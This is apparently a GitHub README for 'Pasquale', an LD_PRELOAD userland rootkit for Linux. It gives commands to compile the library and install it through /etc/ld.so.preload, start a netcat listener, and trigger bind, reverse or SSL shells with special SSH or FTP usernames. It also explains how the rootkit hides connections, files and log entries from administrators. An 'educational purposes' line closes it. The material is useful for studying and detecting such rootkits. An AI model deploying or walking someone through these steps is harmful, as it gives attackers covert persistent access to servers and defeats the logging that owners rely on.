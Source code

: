 ---

# Pasquale Rootkit

## Overview

Pasquale is a userland rootkit utilizing the `LD_PRELOAD` technique to hook system calls and provide various backdoor functionalities. It demonstrates several concepts spanning C programming, socket programming, openSSL, system calls, and various elements related to Linux. The rootkit targets `syslog` and `vsftpd`, triggering one of three possible backdoors. Any network connections made by the attacker are hidden from `netstat` and `lsof`. The rootkit also hides the attacker from logs that usually monitor SSH and FTP connections. 

## Features

- **Backdoor Access**: Provides two types of backdoors: bind shell, reverse shell, and SSL-encrypted shell, which can be triggered through both SSH and FTP.
- **Log Manipulation**: Hides specific log entries from `vsftpd.log` and `auth.log`.
- **Process Hiding**: Conceals specific connections from `netstat` and `lsof`.

## Installation

### Prerequisites

Ensure you have OpenSSL installed on your system. 

### Supported Distributions

Pasquale is supported by Debian-based systems, as well as CentOS. 

### Compilation

Compile the rootkit as a shared library on the target system:

```bash
gcc pasquale.c -fPIC -shared -D_GNU_SOURCE -o lib.pack.so.6 -ldl -lssl -lcrypto
```

### Deployment

This rootkit would be installed on a Linux server where an attacker would have root access. The steps below assume you have root access on the target system.

1. **Compile the Library on Target**: Follow the compilation step directly on the target system to create `lib.pack.so.6`.

2. **Configure `LD_PRELOAD`**: Add the library to `/etc/ld.so.preload`.

    ```bash
    echo "/path/to/lib.pack.so.6" > /etc/ld.so.preload
    ```

### Verification

Verify that the library is loaded:

```bash
ldd /bin/ls
```

Check that `lib.pack.so.6` is listed.

## Usage

### Starting a Listener

Start a listener on the attacker's machine:

```bash
nc -lvp 443
```

### Triggering the Backdoor

Use one of the special usernames to trigger the desired backdoor (bind, reverse, or SSL):

```bash
ssh BIND_USER@target
ssh REVERSE_USER@target
ssh OPENSSL_USER@target
```

Alternatively, these backdoors can also be triggered via FTP with the same usernames:

```bash
ftp target
# login with username BIND_USER, REVERSE_USER, or OPENSSL_USER
```

## Functionality Details

### System Call Hooking

- **LD_PRELOAD** LD_PRELOAD is an enviornamental variable (and also a file) that is checked before all other libraries. If set to the compiled rootkit library, all defined system calls in `pasquale.c` will be dynamically linked before the actual system calls. 
- **write Hook**: Intercepts `write` calls to check for specific usernames. Depending on the username, it triggers a bind shell, reverse shell, or SSL-encrypted shell. The ssh and ftp processes both make write calls when a username is submitted. 
- **fopen Hook**: Intercepts `fopen` calls to hide entries from `/var/log/vsftpd.log` and certain network connections from `netstat` and `lsof`.
- **readdir Hook**: Intercepts directory reads to hide the rootkit's presence, including the `ls` command.

### Abuse of syslog and vsftpd

- **Syslog**: The rootkit hooks the `write` syscall to detect specific usernames logged by `syslog`. When detected, it triggers the appropriate backdoor and writes to `/dev/null`, ensuring no logs containing the usernames are written.
- **vsftpd**: The `fopen` hook redirects writes to `/var/log/vsftpd.log` to `/dev/null`, ensuring the log file remains empty.

## Important Notes

- **Educational Purposes**: This rootkit is intended for educational purposes only. Do not use it for malicious activities.

